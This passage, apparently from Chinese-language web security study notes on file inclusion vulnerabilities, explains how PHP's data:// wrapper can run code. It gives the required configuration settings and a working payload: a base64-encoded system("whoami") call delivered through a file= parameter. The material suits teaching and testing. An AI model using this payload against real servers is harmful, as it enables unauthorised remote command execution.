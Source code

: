 ![image-20240130134330829](08.文件包含漏洞/image-20240130134330829.png)

### data://
前提条件
```
php版本大于等于php5.2
allow_url_fopen = On
allow_url_include = On
```
利用 data:// 伪协议可以直接达到执行php代码的效果，例如执行 phpinfo() 函数，`data://text/plain/ ;base64,php 马的 base64 形式`,如果base64加密出现+需要做URL编码
```
<?php system("whoami");?>  base64编码后：PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTs/Pg==
/test.php?file=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTs/Pg==
```
![image-20240130134333331](08.文件包含漏洞/image-20240130134333331.png)
